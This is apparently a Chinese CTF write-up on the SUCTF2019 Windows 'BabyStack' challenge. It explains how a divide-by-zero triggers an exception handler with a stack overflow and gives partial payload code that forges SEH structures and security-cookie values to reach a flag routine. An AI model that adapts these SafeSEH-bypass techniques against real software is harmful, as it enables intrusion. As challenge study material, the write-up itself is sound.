 ```yaml
---
layout: post
title:  "SUCTF2019 Windows BabyStack"
categories: ctf
tags: pwn Windows
author: ble55ing
---
```


* content
{:toc}
## SUCTF2019 Windows BabyStack

明明是safeSEH的题目，竟然叫BabyStack，栈溢出都没啥用。。

### 题目分析

主函数有栈溢出，但是是exit的所以不能控制ret。

程序本身是32位程序，很大，分析起来很困难。

### 漏洞分析

#### 除零错误

主函数中有一处问题代码，在0x408552处，F5不会显示，这个代码会将输入减去此时栈顶数据然后用栈顶数除以这个差，所以会存在除0错误

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190823234039.png)

然后会触发异常处理函数

#### 异常处理函数

异常处理函数在0x407f60，触发除零错误会调用。

在x407f81处，函数一开始设置了___security_cookie，将一个全局变量异或ebp-8放入ebp-8，再异或ebp放入ebp-0x1c作为canery。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20190823234123.png)

异常处理函数中，当输入为非yes也非no的值的时候，会触发能够在栈上写数据的函数，存在栈溢出。

异常处理函数中有打印flag的语句，但是需要1+1=3，而这两个数都是写死的，也溢出不到。

### 漏洞利用

除0错误只要输入与减去的值相同的值就可以了。

异常处理函数中能够获取任意地址数据，和栈溢出。

考虑在栈上布置一个SEH结构体，然后在任意地址读的时候读一个错误地址，触发异常执行get flag的语句。

构造方式为：从ebp-0x1c开始为：

### SEH利用

```
payload += p32(cookie1)
payload += p32(getflag)
payload += "C"*0x4
payload += p32(next_SEH)
payload += p32(this_SEH_ptr)
payload += p32((buffer_start + 8)^security_cookie)
```

其中，nextSEH和this_SEH_ptr的值不要动，cookie1和fake_struct_addr在本题中都是异或的全局变量，同样也要异或。注意最后程序会走到这个getfalg的位置getflag，而不是SEH里的。。？不知道为什么。

### SEH结构体构造

关于fake_struct的构造：

```
payload = ""
payload += p32(0xFFFFFFE4)
payload += p32(0)
payload += p32(0xFFFFFF0C)
payload += p32(0)
payload += p32(0xFFFFFFFE)
payload += p32(mov_eax1_ret)
payload += p32(getflag)
```

（这个构造好像毫无用处啊。。）把最后俩值改成“CCCCCCCC”也没事。。

